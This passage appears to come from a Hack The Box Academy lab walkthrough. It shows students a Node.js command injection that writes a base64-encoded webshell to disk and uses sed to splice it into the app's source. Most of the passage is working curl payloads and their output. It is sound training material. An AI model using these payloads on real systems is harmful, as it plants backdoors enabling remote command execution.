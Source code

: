 Now, students need to utilize the command injection to force the remote server to decode the base64 webshell and write it to a local file (`pwned.txt` in this example):

Code: shell

```shell
curl -s -X POST -H "Content-Type: application/json" -H "Authorization: Bearer <token>" -d "{ \"text\": \"'})+ console.log(require('child_process').execSync('echo YXBwLmdldCgiL2FwaS9jbWQiLCAocmVxLCByZXMpID0+IHsKICBjb25zdCBjbWQgPSByZXF1aXJlKCJjaGlsZF9wcm9jZXNzIikuZXhlY1N5bmMocmVxLnF1ZXJ5LmNtZCkudG9TdHJpbmcoKTsKICByZXMuc2VuZChjbWQpOwp9KTs= | base64 --decode > pwned.txt').toString())//\" }" http://STMIP:STMPO/api/service/generate
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-ta2msxvsf9]─[~]
└──╼ [★]$ curl -s -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAaGFja3RoZWJveC5jb20iLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDEwMTc5MTYsImV4cCI6MTcwMTEwNDMxNn0.zfneEc3ZflQQ8flykwcfLZzW-ixsRJ06Gz43EDFMsrk" -d "{ \"text\": \"'})+ console.log(require('child_process').execSync('echo YXBwLmdldCgiL2FwaS9jbWQiLCAocmVxLCByZXMpID0+IHsKICBjb25zdCBjbWQgPSByZXF1aXJlKCJjaGlsZF9wcm9jZXNzIikuZXhlY1N5bmMocmVxLnF1ZXJ5LmNtZCkudG9TdHJpbmcoKTsKICByZXMuc2VuZChjbWQpOwp9KTs= | base64 --decode > pwned.txt').toString())//\" }" http://94.237.52.19:52762/api/service/generate

{"message":"Could not generate QR code."}
```

For the second command injection, students need to use `sed` to write the contents of the `pwned.txt` file (which contains the code for the webshell) into the `app.js` file. Again, students need to begin by base64 encoding the command:

Code: shell

```shell
echo "sed -i \"/app.use((req, res, next) => {/e cat pwned.txt\" src/app.js" | base64 -w0

c2VkIC1pICIvYXBwLnVzZSgocmVxLCByZXMsIG5leHQpID0+IHsvZSBjYXQgcHduZWQudHh0IiBzcmMvYXBwLmpzCg==
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-ta2msxvsf9]─[~]
└──╼ [★]$ echo "sed -i \"/app.use((req, res, next) => {/e cat pwned.txt\" src/app.js" | base64 -w0

c2VkIC1pICIvYXBwLnVzZSgocmVxLCByZXMsIG5leHQpID0+IHsvZSBjYXQgcHduZWQudHh0IiBzcmMvYXBwLmpzCg==
```

Subsequently, students need to send this payload to the server, instructing the server to decode the payload while piping into Bash:

Code: shell

```shell
curl -s -X POST -H "Content-Type: application/json" -H "Authorization: Bearer <token>" -d "{ \"text\": \"'})+ console.log(require('child_process').execSync('echo c2VkIC1pICIvYXBwLnVzZSgocmVxLCByZXMsIG5leHQpID0+IHsvZSBjYXQgcHduZWQudHh0IiBzcmMvYXBwLmpzCg== | base64 -d | bash').toString())//\" }" http://STMIP:STMPO/api/service/generate
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-ta2msxvsf9]─[~]
└──╼ [★]$ curl -s -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAaGFja3RoZWJveC5jb20iLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDEwMTc5MTYsImV4cCI6MTcwMTEwNDMxNn0.zfneEc3ZflQQ8flykwcfLZzW-ixsRJ06Gz43EDFMsrk" -d "{ \"text\": \"'})+ console.log(require('child_process').execSync('echo c2VkIC1pICIvYXBwLnVzZSgocmVxLCByZXMsIG5leHQpID0+IHsvZSBjYXQgcHduZWQudHh0IiBzcmMvYXBwLmpzCg== | base64 -d | bash').toString())//\" }" http://94.237.52.19:52762/api/service/generate

{"message":"Could not generate QR code."}
```
